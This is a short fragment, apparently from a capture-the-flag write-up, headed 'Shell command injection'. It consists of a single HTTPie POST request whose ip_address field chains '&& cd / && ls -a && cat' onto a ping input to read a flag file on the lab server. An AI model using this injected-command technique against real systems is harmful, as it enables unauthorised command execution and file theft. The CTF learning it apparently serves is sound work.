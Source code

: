 Shell command injection
`http --form POST 178.62.123.156:31725 test='ping' ip_address='localhost && cd / && ls -a && cat /flag_4hsPR' submit='Test'`

